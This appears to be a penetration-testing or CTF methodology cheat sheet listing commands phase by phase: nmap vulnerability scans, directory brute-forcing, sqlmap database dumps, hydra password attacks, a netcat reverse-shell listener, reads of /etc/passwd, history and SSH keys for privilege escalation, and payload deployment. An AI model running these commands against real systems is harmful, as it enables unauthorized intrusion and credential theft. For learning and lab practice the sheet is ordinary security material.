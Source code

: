 # 1° Scan Nmap 

$sudo nmap -Pn -A [Target_IP] -oN report-nmap.txt

$sudo nmap -Pn -sV -sC -O [Target_IP] -oN report-nmap.txt

$sudo nmap -Pn --script vuln [Target_IP]

$sudo nmap -Pn -p 80 --script http-enum,http-robots.txt [Target_IP]

$sudo nmap -Pn -p 80 --script http-sql-injection [Target_IP]

$sudo nmap -Pn -p 80 --script http-passwd --script-args http-passwd.root=/test/ [Target_IP]

$sudo nmap -Pn -p 80 --script http-vuln-* [Target_IP]

$sudo nmap -Pn -p 21 --script ftp-anon [Target_IP]

$sudo nmap -Pn -p 21 --script ftp-proftpd-backdoor [Target_IP] - ProFTPD 1.3.3c

$sudo nmap -Pn -p 21 --script ftp-vsftpd-backdoor [Target_IP] - vsFTPd 2.3.4

#nmap -Pn -p 111 --script nfs-ls,nfs-statfs,nfs-showmount [Target_IP]

#nmap -Pn -p 445 --script smb-enum-shares,smb-enum-users [Target_IP]

#nmap -Pn -p 445 --script smb-vuln-* [Target_IP]

https://www.exploit-db.com

# 2° Scan Dirb/Gobuster

$dirb http://Target_IP -o dirb-report.txt

$dirb http://Target_IP -x file-ext.txt -w /usr/share/dirb/wordlists/common.txt

$dirb http://Target_IP:8080 -w /usr/share/dirb/wordlists/common.txt -u user:password

$gobuster -u http://Target -x php,html,js,txt,zip -w /usr/share/dirb/wordlists/big.txt dir

# 3° Scan SQLMap/Nikto/Burp Suite/ZAP

$sqlmap -u http://Target_IP/login.php --forms --dump

$sqlmap -u http://Target_IP/listproducts.php?cat=1 –-dbs

$sqlmap -u  http://Target_IP/listproducts.php?cat=1 –-dbs -D products –-tables

$nikto -h http://Target_IP:8080/ -id user:password

Burp Suite > Proxy > Intercept > Open Browser > Intercept on

Burp Suite > Intruder > Sniper attack > Positions Add > Payload Type = Simple list

# 4° Brute Force

$hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP http-post-form "/login.php:username=^USER^&password=^PASS^:Login Failed"

$hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP ftp

$hydra -f -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP ssh

$hydra -f -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP smb

$hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP rdp

$hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP -s 8080 http-get  

# 5° Scan SMB

$enum4linux -a Target_IP | tee enum4linux.log

# 6° Gain Access

http://example.com/login [Exibir código fonte da página]

http://example.com/ftp

http://example/upload

http://example.com/hiden/dir

http://example.com/robots.txt

$ftp Target_IP

$ssh user@Target_IP

$ssh -i id_rsa user@Target_IP

$ssh -oHostKeyAlgorithms=+ssh-rsa user@Target_IP

$sudo mount -o rw Target_IP:/backup /tmp/dir-target

$sudo mount -t cifs -o username=user_name //Target_IP/share_name /mnt/dir-target

$smbclient //Target_IP/shared/dir

# 7° Reverse Shell

Execute no terminal shell do Kali Linux $nc -lvnp 6666

php, python, nc

https://github.com/pentestmonkey/php-reverse-shell

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

https://www.sans.org/posters/netcat-cheat-sheet

# 8° Search Priv-Esc

$cat /etc/proc/version

$cat /etc/issue

$cat /etc/passwd

$cat /etc/crontab

$cat /etc/exports

$cat ~/.*history | less

$id

$ls -la /

$ls -la /home

$ls -la /home/user/.ssh

$sudo -l

$getcap -r / 2>/dev/null

$find / -perm -o w -type d 2>/dev/null

$find / -perm -u=s -type f 2>/dev/null

$find / -name perl* python* gcc* 2>/dev/nul

$find /home -name flag*.txt

$find / -user "www-data" -name "*" 2>/dev/null

https://gtfobins.github.io

https://www.exploit-db.com

# 9° Deploy Payload

$python2 -m SimpleHTTPServer 8000

$python3 -m http-server 8000

$scp payload.sh user@Target_IP:/home/user
